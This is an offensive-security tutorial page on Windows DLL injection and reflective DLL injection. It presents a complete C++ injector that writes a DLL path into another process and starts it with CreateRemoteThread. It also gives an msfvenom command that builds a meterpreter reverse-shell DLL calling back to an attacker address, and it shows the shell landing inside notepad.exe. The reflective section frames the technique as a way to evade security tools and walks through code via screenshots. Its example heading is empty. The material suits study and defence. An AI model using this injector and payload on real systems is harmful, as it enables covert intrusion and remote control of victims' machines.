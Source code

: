 ### DLL Injection
#### What is DLL Injection ?
- It allows users to run any code in the memory of another process by forcing the process to load a foreign DLL file. 
- The process involves attaching to a process, allocating memory, copying the DLL into the process's memory, and create a thread in the target process to execute our injected DLL.
#### DLL Injection Example
Creating the Injector
```c copy filename="injector.cpp"
#include <Windows.h>
#include <cstdio>

int main(int argc, char* argv[]) {
	HANDLE processHandle;
	PVOID remoteBuffer;
	wchar_t dllPath[] = TEXT("C:\\users\\victim\\desktop\\shell.dll");

	printf("Injecting DLL to PID: %i\n", atoi(argv[1]));
	processHandle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(atoi(argv[1])));
	remoteBuffer = VirtualAllocEx(processHandle, NULL, sizeof dllPath, MEM_COMMIT, PAGE_READWRITE);
	WriteProcessMemory(processHandle, remoteBuffer, (LPVOID)dllPath, sizeof dllPath, NULL);
	PTHREAD_START_ROUTINE threatStartRoutineAddress = (PTHREAD_START_ROUTINE)GetProcAddress(GetModuleHandle(TEXT("Kernel32")), "LoadLibraryW");
	CreateRemoteThread(processHandle, NULL, 0, threatStartRoutineAddress, remoteBuffer, 0, NULL);
	CloseHandle(processHandle);

	return 0;
}
```
Create our DLL payload to be injected in the target process using **msfvenom**
```bash copy filename="Bash"
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.0.132 LPORT=8080 -f dll -o shell.dll
```

Now, run the injector executable against the target process using  its **PID** 
```powershell copy filename="Powershell"
.\injector.exe 7660
```
and notice that we have the reverse shell
![meterpreter shell](/images/meterpreter-shell.png)

We can notice within process hacker that  the `rundll32.exe` has been invoked to execute our injected dll under the **notepad.exe** process
![dll injection](/images/dll-injection.png)

And we can notice our `shell.dll` loaded in the **notepad.exe** process 
![dll injection](/images/dll-injection-1.png)

### RDI (Reflective DLL Injection)
#### What is RDI ?
- Is a more advanced form of DLL injection that aims to make the injection process less detectable by security tools and antimalware solutions. In reflective DLL injection, the injected DLL contains code that is designed to be position-independent, meaning it can execute regardless of where it's loaded in memory.
- **Here's how reflective DLL injection works**:

	- The attacker prepares a DLL that includes a small piece of code called a "loader." This loader is responsible for reading the rest of the DLL from a specific data structure in memory.
	- The loader code is injected into the target process using a method like CreateRemoteThread,  SetWindowsHookEx or a tiny bootstrap shellcode.
	- Once the loader code is executed in the target process, it locates the full DLL image within its own memory space and loads it into memory.
	- The DLL's entry point is then executed, and the malicious or custom code contained within the DLL can run.
	- Reflective DLL injection can make it harder for security tools to detect the injected DLL because the injected code does not rely on any external dependencies or traditional API calls that are typically monitored.
#### quick dive into RDI code
[**Stephen Fewer**](https://twitter.com/stephenfewer) explains his technique in depth in the [**Original RDI project**](https://github.com/stephenfewer/ReflectiveDLLInjection). And we'll have a quick look on what It does ..

- At first we have our **injector** which will open a handle to the remote target proess.

	![rdi-1](/images/rdi-1.png)

	which if we don't supply the **PID** of the target process and the DLL file to be injected, will use the current **PID** as the target process and will inject the test DLL into it.

	![rdi-5](/images/rdi-5.png)
- And here we have a custom `GetProcAddress` to avoid using the native one.

	![rdi-2](/images/rdi-2.png)

- Here we have our reflective loader

	![rdi-3](/images/rdi-3.png)

- And finally we have a test DLL  that will be executed in case we didn't supply a DLL to inject

	![rdi-4](/images/rdi-4.png)

	
#### RDI Example

### References
- https://www.ired.team/offensive-security/code-injection-process-injection/dll-injection
- https://www.ired.team/offensive-security/code-injection-process-injection/reflective-dll-injection
- https://github.com/stephenfewer/ReflectiveDLLInjection